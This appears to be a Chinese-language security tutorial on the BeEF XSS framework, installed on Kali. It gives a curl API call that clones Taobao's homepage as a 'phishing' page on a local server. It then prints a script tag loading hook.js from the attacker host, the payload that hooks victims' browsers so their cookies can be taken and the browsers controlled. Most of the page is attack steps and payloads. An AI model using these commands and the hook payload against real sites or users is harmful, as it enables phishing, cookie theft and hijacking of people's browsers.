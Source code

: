 ## xss漏洞利用工具Beef
### 1、在kali上安装beef
```shell script
sudo apt install beef-xss
```
### 2、配置beef
```shell script
vim /usr/share/beef-xss/config.yaml
```
![image](https://github.com/498946975/Security/blob/master/images/xss_19.png)
### 3、用户名和密码
```shell script
vim /usr/share/beef-xss/config.yaml
```
![image](https://github.com/498946975/Security/blob/master/images/xss_20.png)
### 4、启动beef
```shell script
cd /usr/share/beef-xss 
./beef
```
![image](https://github.com/498946975/Security/blob/master/images/xss_21.png)
![image](https://github.com/498946975/Security/blob/master/images/xss_22.png)

### 5、克隆其他网站，需要用到上面启动时候告诉到apikey
#### 5.1 克隆规则
```shell script
curl -H "Content-Type: application/json; charset=UTF-8" -d '{"url":"<URL of site to clone>", "mount":"<where to mount>"}' -X POST http://<BeEFURL>/api/seng/clone_page? token=<token>
# <URL of site to clone> 需要克隆的网址
# <where to mount> 克隆的⻚面在服务器的哪个路径访问 ,beef的url路径
# <token> 服务启动时的 beef API key
```
#### 5.2 克隆淘宝的首页
```shell script
└─# curl -H "Content-Type: application/json; charset=UTF-8" -d '{"url":"https://www.taobao.com", "mount":"/clone_taobao"}' -X POST http://172.16.120.177:3000/api/seng/clone_page?token=ab06cbe5f38a44607a2a8f3c0a806174b0afcb7b       
{"success":true,"mount":"/clone_taobao"}     
```
#### 5.3 访问"钓鱼"页面
http://172.16.120.177:3000/clone_taobao
![image](https://github.com/498946975/Security/blob/master/images/xss_23.png)
然后在beef上，就可以收到上线可控的浏览器
![image](https://github.com/498946975/Security/blob/master/images/xss_24.png)

### 6、使用beef控制
获取钓鱼的cookie
![image](https://github.com/498946975/Security/blob/master/images/xss_25.png)

### 7、发送钓鱼脚本，进行控制
[13:05:29]    |   Hook URL: http://172.16.120.177:3000/hook.js
```shell script
<script src="http://172.16.120.177:3000/hook.js"></script>
```
![image](https://github.com/498946975/Security/blob/master/images/xss_26.png)
